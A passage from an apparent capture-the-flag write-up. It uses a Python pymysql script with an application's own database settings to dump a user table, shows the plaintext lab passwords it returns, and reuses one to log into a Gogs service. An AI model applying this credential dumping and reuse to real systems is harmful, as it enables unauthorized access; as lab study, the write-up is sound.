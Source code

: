 ```
10, 'ROW_FORMAT': None, 'TABLE_ROWS': 0, 'AVG_ROW_LENGTH': 0, 'DATA_LENGTH': 0, 'MAX_DATA_LENGTH': 0, 'INDEX_LENGTH': 0,
'DATA_FREE': 0, 'AUTO_INCREMENT': None, 'CREATE_TIME': datetime.datetime(2019, 2, 2, 17, 59, 37), 'UPDATE_TIME': None, 'CHECK_TIME':
None, 'TABLE_COLLATION': None, 'CHECKSUM': None, 'CREATE_OPTIONS': '', 'TABLE_COMMENT': ''},
```
We can see 2 table names here, ```user``` and ```brew```, and the tables after which are the standard base tables in a mysql database.

Changing up our script a little, we can enumerate the user table and hopefully get some useful information

```
import pymysql
from craft_api import settings

# test connection to mysql database

connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                             user=settings.MYSQL_DATABASE_USER,
                             password=settings.MYSQL_DATABASE_PASSWORD,
                             db=settings.MYSQL_DATABASE_DB,
                             cursorclass=pymysql.cursors.DictCursor)

try: 
    with connection.cursor() as cursor:
        sql = "SELECT `*` FROM `user`" 
        cursor.execute(sql)
        result = cursor.fetchall()
        print(result)

finally:
    connection.close()
```

This time, we will be querying all the rows and columns in the user table, and we get the following output:
```
[{'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'}, {'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'}, {'id': 5, 'username': 'gilfoyle', 'password': 'ZEU3N8WNM2rh4T'}]
```

Seems like we got the credentials of the other users for the gogs page!

### Back to Web

Trying to login with gilfoyle, we see that he has a private repository with a .ssh folder!
